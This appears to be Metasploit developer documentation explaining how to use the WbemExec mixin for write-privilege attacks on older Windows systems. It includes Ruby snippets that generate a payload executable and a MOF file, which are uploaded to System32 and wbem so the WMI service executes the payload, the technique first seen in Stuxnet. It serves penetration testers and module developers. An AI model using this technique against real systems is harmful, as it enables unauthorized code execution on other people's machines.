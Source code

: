 % Write a privilege attack with WbemExec 
% Metasploit Versions 4,5

Windows Management Instrumentation (WMI) is Microsoft's implementation of Web-Based Enterprise Management (WBEM), which uses Managed Object Format (MOF) to create Common Information Model (CIM) classes. The security community was actually unfamiliar with the evilness of this technology until the birth of Stuxnet, which used a MOF file to exploit a vulnerability allowing the attacker to create files via a fake Printer Spooler service. This technique was later reverse-engineered and demonstrated in Metasploit's [ms10_061_spoolss.rb](https://github.com/rapid7/metasploit-framework/blob/master/modules/exploits/windows/smb/ms10_061_spoolss.rb) module, and that significantly changed how we approach write-privilege attacks. Generally speaking, if you find yourself being able to write to system32, you can most likely take advantage of this technique.

### Requirements

To to able to use the ```WBemExec``` mixin, you must meet these requirements:

* Write permission to C:\Windows\System32\
* Write permission to C:\Windows\System32\Wbem\
* The target must NOT be newer than Windows Vista (so mostly good for XP, Win 2003, or older). This is more of a limitation from the API, not the technique. Newer Windows operating systems need the MOF file to be pre-compiled first.

### Usage

First, include the ```WbemExec``` mixin under the scope of your ```MetasploitModule``` class. You will also need the ```EXE``` mixin to generate an executable:

```ruby
include Msf::Exploit::EXE
include Msf::Exploit::WbemExec
```

Next, generate a payload name and the executable:

```ruby
payload_name = "evil.exe"
exe = generate_payload_exe
```

And then generate the mof file using the ```generate_mof``` method. The first argument should be the name of the mof file, and the second argument is the payload name:

```ruby
mof_name = "evil.mof"
mof = generate_mof(mof_name, payload_name)
```

Now you're ready to write/upload your files to the target machine. Always make sure you upload the payload executable first to ```C:\Windows\System32\```.

```ruby
upload_file_to_system32(payload_name, exe) # Write your own upload method
```

And then now you can upload the mof file to ```C:\Windows\System32\wbem\```:

```ruby
upload_mof(mof_name, mof) # Write your own upload method
```

Once the mof file is uploaded, the Windows Management Service should pick that up and execute it, which will end up executing your payload in system32. Also, the mof file will automatically be moved out of the mof directory after use.

### References

https://github.com/rapid7/metasploit-framework/blob/master/lib/msf/core/exploit/wbemexec.rb

https://github.com/rapid7/metasploit-framework/blob/master/modules/exploits/windows/smb/ms10_061_spoolss.rb